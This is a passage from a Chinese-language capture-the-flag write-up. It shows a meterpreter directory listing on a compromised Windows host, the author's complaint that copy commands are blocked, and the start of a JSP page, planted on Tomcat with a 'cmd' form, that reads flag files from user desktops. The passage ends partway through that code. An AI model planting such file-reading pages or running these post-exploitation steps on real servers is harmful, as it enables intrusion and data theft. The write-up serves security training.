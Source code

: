
```shell
meterpreter > dir
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40776/rwxrwxrw-   8192  dir   2018-06-19 04:31:28 +0800  Administrator
40777/rwxrwxrwx   4096  dir   2018-06-19 09:31:34 +0800  All Users
40777/rwxrwxrwx   8192  dir   2013-08-23 00:08:06 +0800  Default
40777/rwxrwxrwx   8192  dir   2013-08-23 00:08:06 +0800  Default User
40776/rwxrwxrw-   4096  dir   2013-08-22 23:39:32 +0800  Public
100777/rwxrwxrwx  174   fil   2013-08-22 23:37:57 +0800  desktop.ini
```

找到了flag

`C:\Users\Administrator\Desktop\flags`

但是！机器上封了echo copy这些玩意！不让我打印shell！

甚至封了cp 不让我复制到tomcat下。。

emmm

写个jsp或者war强行读一下试试呗 反正 好像也没啥好方法

#### 4.6 写jsp

index.jsp
```jsp
<span style="color: #000000;"><FORM METHOD=GET ACTION='index.jsp'>

<INPUT name='cmd' type=text>

<INPUT type=submit value='Run'>

</FORM>

<%@ page import="java.io.File" %><%@ page import="java.io.FileReader" %>

<%
    String output1 = "";
    try {
        File file1 = new File("C:/Users/Administrator/Desktop/flags");
        FileReader fileReader = new FileReader(file1);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output1 += (char) nowI;
        }
    } catch (Throwable e) {
        output1 = e.toString();
    }

    String output2 = "";
    try {
        File file2 = new File("C:/Users/All Users/Desktop/flags");
        FileReader fileReader = new FileReader(file2);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output2 += (char) nowI;
```